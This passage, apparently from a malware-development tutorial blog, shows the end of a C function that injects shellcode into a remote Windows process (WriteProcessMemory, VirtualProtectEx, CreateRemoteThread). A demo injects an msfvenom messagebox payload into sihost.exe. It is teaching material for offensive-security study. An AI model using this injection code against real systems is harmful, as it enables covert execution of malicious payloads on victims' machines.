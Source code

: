 ```c
		if (WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sBytesWritten) || sBytesWritten != sSizeOfShellcode) {
			printf("[+] Wrote %d bytes. Cleaning the shellcode from the local process ...\n", sBytesWritten);
			memset(pShellcode, '\0', sSizeOfShellcode);
			printf("[+] Trying to make the memory region executable ... \n");

			if (VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READ, &dwOldProtection)) {
				printf("[+] Launching the shellcode in a new thread ... \n");
				hThread = CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);

				if (hThread != NULL) {
					printf("[+] Waiting 2000 ms for thread execution ... \n");
					WaitForSingleObject(hThread, 2000);
					return TRUE;
				} 
			}
		}
	}

	return FALSE;
}
```

If at any point a function fails, `InjectShellcode` returns `FALSE`, otherwise it returns `TRUE`.


## Demo and Analysis
---

A simple `windows/x64/messagebox` payload from `msfvenom` will be used for the demo. When running the our executable, we see the messagebox pop up

![](/attachments/proc-enum-inject/gif1212312312312312.gif)

We also see the PID `4668` of the process where the shellcode was injected. We can check that PID on System Informer and see that the process is `sihost.exe`

![](/attachments/proc-enum-inject/Pasted%20image%2020241126070640.png)


When inspecting the memory of `sihost.exe` at the address `0x0000022D34320000` which we got from the output of our malware, we can see the `msfvenom` message box payload.

![](/attachments/proc-enum-inject/Pasted%20image%2020241126071137.png)


## Remote Process Enumeration and Injection - Full Code
---
